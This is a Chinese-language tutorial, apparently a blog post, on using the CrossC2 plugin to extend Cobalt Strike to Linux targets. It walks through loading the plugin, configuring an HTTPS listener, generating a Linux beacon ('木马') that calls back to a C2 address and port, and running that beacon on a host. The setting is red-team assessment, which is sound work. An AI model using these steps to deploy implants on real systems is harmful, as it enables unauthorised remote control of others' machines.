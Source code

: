 # 前言

默认情况下CS是不支持上线Linux的，只支持上线Windows，但是再事情的渗透测试过程中，一般企业重用的业务通常都是运行再Linux上的，这就会导致原版的CS无法上线Linux，而这时候可以使用crossC2插件来解决这个问题。

# 下载插件

crossC2主要面向企业自身及红队人员的安全评估框架，支持CobaltStrike对其他平台(Linux/MacOS/...)的安全评估，支持自定义模块，及包含一些常用的渗透模块。

[crossC2插件](https://github.com/gloxec/CrossC2)

这里我们需要下载两个文件，主要其中Linux与MacOS是需要根据自己的服务器系统来判断，通常来说都是使用Linux系统。

![image-20230612133715182](https://s2.loli.net/2023/06/12/UbAGy8dMcxV5SH1.png)

# CS配置

这里我们首先先启动CS，这一步想必应该不需要解释吧！

## 客户端配置

### 导入插件文件

将下载好的后缀为.cna文件导入进CS中。

![image-20230612134028265](https://s2.loli.net/2023/06/12/Ij62b7mKLDNlUqe.png)

### 配置监听

由于插件只支持HTTPS与TCP，所以这里我们选择的监听就选择HTTPS吧。

![image-20230612134209790](https://s2.loli.net/2023/06/12/EzdhiDBbvmYntUu.png)

## 服务端配置

### 导入配置文件

这里将下载下来的结尾是.Linux的文件导入到服务器中，注意需要导入到CS目录下，并赋予执行权限。

```
chmod +x genCrossC2.Linux
```

![image-20230612134343754](https://s2.loli.net/2023/06/12/QOEP1giWv9RUGrk.png)

这里最好的将CS客户端重启一次。

## 生成木马

当在之前加载插件后，就会出现这个CroseC2了，只不过建议，当将.Linux文件上传到服务端并添加执行权限后，最好是重启以下CS客户端。

这里我们选择HTTPS的选项。

![image-20230612134521051](https://s2.loli.net/2023/06/12/fB4ZWjLqhbRJ3pt.png)

这里相关的内容看图片上的文字，生成情况，会在会话事件日志中出现，确实这个点击生成后，并会直接像CS一样弹窗出来，而且是需要你去执行命令去生成。

所以一般情况下可以不使用这个界面去生成，可以直接使用命令。

```
./genCrossC2.Linux 192.168.10.20 5555 ./.cobaltstrike.beacon_keys null Linux x64 t_cc2.out

这个命令其实仔细看是能够看出来的的前面的是我们之前上传到服务端的.Linux文件，后面跟着服务器地址及监听端口。
后面./.cobaltstrike.beacon_keys 输入ls -l 能够看到隐藏文件，后面的想必不用介绍了吧。
```

当然如果觉得命令麻烦，那么就是直接在下面的图片中点击生成，然后将命令复制到Linux中进行执行，因为不一定能够执行成功！！

![image-20230612134922296](https://s2.loli.net/2023/06/12/5I7P2HmeEOxz1ds.png)

### 修改cna文件

当你点击生成后会发现，命令无法执行？这是由于在cna文件中的配置并没有修改，看下图，还是mac的。这时候我们就需要去修改cna文件。

![image-20230612135457908](https://s2.loli.net/2023/06/12/oUckaP1vf8yCbeW.png)

找到cna文件，也就是之前加载的文件，修改里面的地址，地址是你cs文件夹，下面的是你的系统文件，也就是刚刚下载的.Linux文件名字，其它的是不需要修改的。

修改后，要将CS客户端重启哦。

![image-20230612135615833](https://s2.loli.net/2023/06/12/voHgBzxAZQpVuRT.png)

### 修改后效果

可以看到前后的对比，前面有相应的路径了。

![image-20230612135714568](https://s2.loli.net/2023/06/12/UA8K5fi2k1mCawZ.png)

然后将命令输入到Linux中进行执行，当然我的建议是在cs目录下执行，去除前面的绝对路径。

```
./genCrossC2.Linux 192.168.10.20 5555 ./.cobaltstrike.beacon_keys null Linux x64 t_cc2.out
```

![image-20230612135920642](https://s2.loli.net/2023/06/12/rIVixEX5gLf9otR.png)

## 执行木马

将木马上传到Linux系统中，然后基于执行权限，并且执行木马，从CS客户端可以看到成功上线。

```
chmod +x t_cc2.out
./t_cc2.out
```

![image-20230612140028939](https://s2.loli.net/2023/06/12/uPtCrgGk37fRZ9a.png)
